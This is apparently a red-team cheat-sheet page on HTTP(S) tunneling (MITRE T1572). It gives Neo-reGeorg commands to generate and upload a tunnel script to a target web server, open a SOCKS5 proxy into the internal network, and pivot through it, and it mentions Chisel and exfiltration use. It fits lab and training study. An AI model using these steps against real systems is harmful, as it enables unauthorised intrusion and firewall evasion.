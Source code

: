 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# HTTP(s) Tunneling

## Theory

HTTP tunneling is a technique that involves encapsulating non-HTTP traffic within HTTP to traverse network restrictions or security measures. It allows data to be transmitted in a way that appears as regular HTTP traffic, making it more likely to pass through firewalls and other filtering mechanisms that may be in place. Its a valuable pivoting technique to concidere.

{% hint style="danger" %}
HTTP(S) Tunneling may also be used as an [exfiltration](../exfiltration/) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:

```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host then on a webserver. On the attacking machine we can do:

```bash
#Establish sock5 proxy
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php

#We can now use it as sock5 proxy 
v4resk@kali$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```
{% endtab %}

{% tab title="Chisel" %}
[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward. It tunnels connections within the HTTP protocol and uses the SSH protocol within this tunnel to encrypt our data.

For more details, and to learn how to use this tool, please refer to the [Port Forwarding page](portfwd.md#chisel).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
